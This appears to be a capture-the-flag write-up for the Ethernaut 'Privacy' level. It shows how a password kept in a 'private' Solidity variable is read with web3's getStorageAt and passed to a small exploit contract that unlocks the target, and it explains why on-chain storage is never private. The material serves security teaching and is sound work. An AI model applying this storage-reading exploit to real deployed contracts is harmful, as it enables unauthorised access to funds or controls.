 ### Vulnerable Parts

```solidity
// private doesn't mean it cannot be read.
bytes32[3] private data;

function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2])); // it's telling us that data[2] is the place for password, convenient.
    locked = false;
}
```

### Attack!

1. In console, `await web3.eth.getStorageAt(contract.address,5)` (password at storage slot 5)
2. Then we write a contract in remix.

   ```solidity
   contract CrackPrivacy {
     Privacy private immutable i_privacy;
     constructor(address privacyAddress) public {
         i_privacy = Privacy(privacyAddress);
     }

     function crack(bytes32 password) public {
         i_privacy.unlock(bytes16(password));
     }

     function getLocked() public view returns(bool) {
         return i_privacy.locked();
     }
   }
   ```

3. Deploy to Rinkeby
4. Call `crack` with the `getStorageAt` result.
5. `locked` should be `false` now.

### Note

Nothing in the ethereum blockchain is private. The keyword private is merely an artificial construct of the Solidity language. Web3's `getStorageAt(...)` can be used to read anything from storage. It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.

It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": [How to read Ethereum contract storage](https://medium.com/@dariusdev/how-to-read-ethereum-contract-storage-44252c8af925)

### Special Mention

1. [Beating Ethernaut: level 12 Privacy](https://blog.blockmagnates.com/beating-ethernaut-level-12-privacy-53a48644d42e)
2. [Layout of State Variables in Storage](https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html)
